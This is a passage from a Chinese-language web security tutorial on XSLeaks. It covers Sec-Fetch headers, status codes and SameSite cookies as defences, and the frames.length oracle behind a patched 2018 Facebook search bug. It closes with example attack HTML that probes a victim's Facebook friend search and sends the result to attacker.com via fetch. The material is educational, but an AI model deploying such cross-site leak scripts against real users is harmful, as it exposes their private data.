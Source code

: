 `Sec-Fetch-Site` 的值主要有以下幾種：

1. same-origin
2. same-site
3. cross-site
4. none（無法歸類在上面的，例如說瀏覽器從書籤點開網站）

`Sec-Fetch-Mode` 有這幾種：

1. same-origin
2. no-cors
3. cors
4. navigate

而 `Sec-Fetch-Dest` 的值因為太多了我就不列出了。

第三種的話就是把成功跟失敗的狀態碼都改成 200，就無法根據狀態碼的差別偵測出差異了。

這個讓我想到後端討論區有一個時不時就會出現的問題是，到底 response 的狀態碼要怎麼設定，例如說有些人會把狀態碼當成是資源本身的狀態碼，比如說 `/api/books/3`，如果沒有這個資源，就回傳 `404 Not found`。

但有些人會把這個狀態碼當成另一種用途，`/api/books/3` 雖然沒有這本書，但是這個 API 存在，所以回傳 200，在 body 裡面才回傳找不到的訊息。訪問 `/api/not_exist` 這個不存在的 API 才會回傳 404。

如果從這個角度看的話，第二種設計方式可以解決 XSLeaks 的問題。不過，我自己覺得特地改動狀態碼來防範攻擊不是件好事，畢竟牽涉到的東西很多，有可能前端也要跟著改。比較好的方式還是先透過 same-site cookie 去做防禦，最容易也最簡單。

## 其他可以 leak 的東西

在 HTML 裡面，其實可以拿來當作 leak oracle 的東西還不少，例如說 frames 的數量就是一個。

以前有提過瀏覽器會限制你對於一個 cross-origin window 的存取，能碰到的東西很有限，例如說你雖然可以利用 `location = '...'` 重新導向，但你拿不到 `location.href` 或是其他的值。

但是在這種限制底下，還是有一些些的資訊是可以取得的，像是 frames 的數量，範例程式碼如下：

``` js
var win = window.open('http://localhost:5555')
// 等 window 載入完成
setTimeout(() => {
  alert(win.frames.length)
}, 1000)
```

如果開啟的頁面有一個 iframe，長度就是 1，什麼都沒有的話就是 0。如果一個網站會根據行為的不同，而有不同的 iframe 數量的話，我們就可以用這招來偵測。

例如說 2018 年資安公司 Imperva 部落格中的：[Patched Facebook Vulnerability Could Have Exposed Private Information About You and Your Friends](https://www.imperva.com/blog/facebook-privacy-bug/) 就是利用了這個技巧。

Facebook 有一個搜尋的功能，可以搜尋自己的朋友、貼文或是相片等等，而這個搜尋功能可能是為了方便分享，所以直接從網址點進去就可以搜。舉例來說，`https://www.facebook.com/search/str/chen/users-named/me/friends/intersect` 這個 URL 會顯示朋友中名字有「chen」的搜尋結果。

而作者發現了一個差異，就是如果搜尋結果有東西，那頁面上會有一個 iframe，作者推測這可能是 Facebook 做 tracking 所需要的。若是沒有結果，那就不會有這個 iframe。

換句話說，我們可以從 `frames.length` 得知搜尋的結果有沒有東西。

攻擊流程是這樣的，我們先準備好一個 HTML，內容是：

``` html
<script>
  let win = window.open('https://www.facebook.com/search/str/chen/users-named/me/friends/intersect')
  setTimeout(() => {
    if (win.frames.length === 0) {
      fetch('https://attacker.com/?result=no')
    } else {
      fetch('https://attacker.com/?result=yes')
    }
    win.close()
  }, 2000)
</script>
```
